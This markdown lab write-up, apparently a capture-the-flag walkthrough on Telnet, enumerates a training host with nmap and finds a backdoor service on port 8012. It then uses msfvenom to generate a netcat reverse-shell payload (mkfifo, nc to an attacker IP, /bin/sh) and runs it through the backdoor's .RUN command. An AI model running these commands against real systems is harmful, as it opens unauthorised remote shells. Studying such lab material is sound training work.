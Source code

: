 # Telnet

- [About](#about)
- [Enumeration](#enumeration)
  - [Nmap](#nmap)
- [Exploitation](#exploitation)
  - [CLI](#cli)
    - [Telnet](#telnet-cli)
    - [TCPDump](#tcpdump)
    - [MSFVenom](#msfvenom)

## About:

- What is Telnet?
  A protocol that allows us to connect and execute commands on a remote machine hosting a telnet server through the use of a telnet client.

  The client will establish a connection with the server and become a virtual terminal allowing us to interact.

  Telnet sends all messages in clear text and has no specific security mechanism. Because of this, Telnet was replaced by SSH in most instances.

- How does it work?
  The user connects to a server using the Telnet protocol. By entering _"telnet"_ into a terminal.  
  One can connect with the following syntax: **telnet [ip] [port]**

## Enumeration

### Nmap

- Input
  A basic scan
  ```bash
  nmap -A -oA  -vv 10.10.124.182
  ```
- Output

  ```bash
  # Nmap 7.60 scan initiated Tue Apr 27 19:34:14 2021 as: nmap -A -oA nmap/1k_ports -vv 10.10.124.182
  adjust_timeouts2: packet supposedly had rtt of -101322 microseconds. Ignoring time.
  adjust_timeouts2: packet supposedly had rtt of -101322 microseconds. Ignoring time.
  adjust_timeouts2: packet supposedly had rtt of -150043 microseconds. Ignoring time.
  adjust_timeouts2: packet supposedly had rtt of -150043 microseconds. Ignoring time.
  Nmap scan report for ip-10-10-124-182.eu-west-1.compute.internal (10.10.124.182)
  Host is up, received arp-response (0.00084s latency).
  All 1000 scanned ports on ip-10-10-124-182.eu-west-1.compute.internal (10.10.124.182) are closed because of 1000 resets
  MAC Address: 02:57:43:51:12:55 (Unknown)
  Too many fingerprints match this host to give specific OS details
  TCP/IP fingerprint:
  SCAN(V=7.60%E=4%D=4/27%OT=%CT=1%CU=40586%PV=Y%DS=1%DC=D%G=N%M=025743%TM=6088592A%P=x86_64-pc-linux-gnu)
  SEQ(CI=Z)
  T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
  T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
  T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
  U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
  IE(R=Y%DFI=N%T=40%CD=S)

  Network Distance: 1 hop

  TRACEROUTE
  HOP RTT ADDRESS
  1 0.84 ms ip-10-10-124-182.eu-west-1.compute.internal (10.10.124.182)

  Read data files from: /usr/bin/../share/nmap
  OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

  # Nmap done at Tue Apr 27 19:34:18 2021 -- 1 IP address (1 host up) scanned in 4.65 seconds
  ```

- Input: Scan all ports
  ```bash
  nmap -p- -A -sC -sV -oA /nmap 10.10.124.182
  ```
- Output:

  ```bash
  # Nmap 7.60 scan initiated Tue Apr 27 19:20:26 2021 as: nmap -p- -A -sC -sV -oA nmap/ -vv 10.10.124.182
  Increasing send delay for 10.10.124.182 from 0 to 5 due to 4655 out of 15515 dropped probes since last increase.
  Increasing send delay for 10.10.124.182 from 5 to 10 due to 11 out of 31 dropped probes since last increase.
  Increasing send delay for 10.10.124.182 from 10 to 20 due to 11 out of 24 dropped probes since last increase.
  Increasing send delay for 10.10.124.182 from 20 to 40 due to 11 out of 23 dropped probes since last increase.
  Increasing send delay for 10.10.124.182 from 40 to 80 due to 11 out of 32 dropped probes since last increase.
  adjust_timeouts2: packet supposedly had rtt of -175564 microseconds.  Ignoring time.
  adjust_timeouts2: packet supposedly had rtt of -175564 microseconds.  Ignoring time.
  adjust_timeouts2: packet supposedly had rtt of -175516 microseconds.  Ignoring time.
  adjust_timeouts2: packet supposedly had rtt of -175516 microseconds.  Ignoring time.
  adjust_timeouts2: packet supposedly had rtt of -175611 microseconds.  Ignoring time.
  adjust_timeouts2: packet supposedly had rtt of -175611 microseconds.  Ignoring time.
  adjust_timeouts2: packet supposedly had rtt of -175646 microseconds.  Ignoring time.
  adjust_timeouts2: packet supposedly had rtt of -175646 microseconds.  Ignoring time.
  adjust_timeouts2: packet supposedly had rtt of -175647 microseconds.  Ignoring time.
  adjust_timeouts2: packet supposedly had rtt of -175647 microseconds.  Ignoring time.
  adjust_timeouts2: packet supposedly had rtt of -175631 microseconds.  Ignoring time.
  adjust_timeouts2: packet supposedly had rtt of -175631 microseconds.  Ignoring time.
  Nmap scan report for ip-10-10-124-182.eu-west-1.compute.internal (10.10.124.182)
  Host is up, received arp-response (0.00042s latency).
  Scanned at 2021-04-27 19:20:27 BST for 5814s
  Not shown: 65534 closed ports
  Reason: 65534 resets
  PORT     STATE SERVICE REASON         VERSION
  8012/tcp open  unknown syn-ack ttl 64
  | fingerprint-strings:
  |   DNSStatusRequest, DNSVersionBindReq, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, X11Probe:
  |_    SKIDY'S BACKDOOR. Type .HELP to view commands
  1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
  SF-Port8012-TCP:V=7.60%I=7%D=4/27%Time=60886C06%P=x86_64-pc-linux-gnu%r(NU
  SF:LL,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20command
  SF:s\n")%r(GenericLines,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\
  SF:x20view\x20commands\n")%r(GetRequest,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\
  SF:x20\.HELP\x20to\x20view\x20commands\n")%r(HTTPOptions,2E,"SKIDY'S\x20BA
  SF:CKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(RTSPRequest,
  SF:2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n
  SF:")%r(RPCCheck,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view
  SF:\x20commands\n")%r(DNSVersionBindReq,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\
  SF:x20\.HELP\x20to\x20view\x20commands\n")%r(DNSStatusRequest,2E,"SKIDY'S\
  SF:x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(Help,2E
  SF:,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")
  SF:%r(SSLSessionReq,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20v
  SF:iew\x20commands\n")%r(TLSSessionReq,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x
  SF:20\.HELP\x20to\x20view\x20commands\n")%r(Kerberos,2E,"SKIDY'S\x20BACKDO
  SF:OR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(SMBProgNeg,2E,"S
  SF:KIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(
  SF:X11Probe,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20c
  SF:ommands\n")%r(FourOhFourRequest,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.
  SF:HELP\x20to\x20view\x20commands\n")%r(LPDString,2E,"SKIDY'S\x20BACKDOOR\
  SF:.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(LDAPSearchReq,2E,"S
  SF:KIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(
  SF:LDAPBindReq,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x
  SF:20commands\n")%r(SIPOptions,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP
  SF:\x20to\x20view\x20commands\n")%r(LANDesk-RC,2E,"SKIDY'S\x20BACKDOOR\.\x
  SF:20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(TerminalServer,2E,"SKI
  SF:DY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(NC
  SF:P,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands
  SF:\n")%r(NotesRPC,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20vi
  SF:ew\x20commands\n")%r(JavaRMI,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HEL
  SF:P\x20to\x20view\x20commands\n");
  MAC Address: 02:57:43:51:12:55 (Unknown)
  No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
  TCP/IP fingerprint:
  OS:SCAN(V=7.60%E=4%D=4/27%OT=8012%CT=1%CU=34686%PV=Y%DS=1%DC=D%G=Y%M=025743
  OS:%TM=60886CA1%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=Z%TS
  OS:=A)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M2301ST11NW7%O2=M
  OS:2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST1
  OS:1)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%
  OS:W=F507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R
  OS:=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W
  OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
  OS:T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%U
  OS:N=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

  Uptime guess: 7.535 days (since Tue Apr 20 08:07:06 2021)
  Network Distance: 1 hop
  TCP Sequence Prediction: Difficulty=261 (Good luck!)
  IP ID Sequence Generation: All zeros

  TRACEROUTE
  HOP RTT ADDRESS
  1 0.42 ms ip-10-10-124-182.eu-west-1.compute.internal (10.10.124.182)

  Read data files from: /usr/bin/../share/nmap
  OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

  # Nmap done at Tue Apr 27 20:57:21 2021 -- 1 IP address (1 host up) scanned in 5815.19 seconds

  ```

- Information
  ```bash
  PORT     STATE SERVICE REASON         VERSION
  8012/tcp open  unknown syn-ack ttl 64
  | fingerprint-strings:
  |   DNSStatusRequest, DNSVersionBindReq, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, X11Probe:
  |_    SKIDY'S BACKDOOR.
  ```

## Exploitation

### CLI

#### Telnet cli

- Connecting via Telnet
  ```bash
  telnet 10.10.124.182 8012
  ```
  - We are greeted with a Banner, but no information is being returned.
    ```bash
    Trying 10.10.124.182...
    Connected to 10.10.124.182.
    Escape character is '^]'.
    SKIDY'S BACKDOOR. Type .HELP to view commands
    ls
    pwd
    ```

#### TCPDump

Since we are unable to see commands being executed, we will set up a TCP listener on our machine. The following command starts a tcpdump listener, specifically listening for ICMP traffic.

```bash
sudo tcpdump ip proto \\icmp -i eth0
```

In another terminal, we then ping ourselves from the vuln machine with the .RUN prefix. If we see traffic, then that means we can reach the vuln machine.

#### MSFVenom

Next, we are going to generate a reverse shell payload. THis will generate and enode a netat reverse shell for us.

- Args
  -p = payload
  lhost = Our localhost IP.
  lport = The port on our machine to listen from.
  R = export eh payload in raw format

  ```bash
  "msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"
  ```

- Payload

  ```bash
  mkfifo /tmp/vclhjdw; nc 10.10.162.126 4444 0</tmp/vclhjdw | /bin/sh >/tmp/vclhjdw 2>&1; rm /tmp/vclhjdw
  ```

  Now, lets start a netcat listener

  ```bash
  nc -lvp 4444
  ```

  Then we return to the Telnet session and execute the payload

  ```bash
  .RUN mkfifo /tmp/vclhjdw; nc 10.10.162.126 4444 0</tmp/vclhjdw | /bin/sh >/tmp/vclhjdw 2>&1; rm /tmp/vclhjdw
  ```

  Now, we should have a reverse shell.
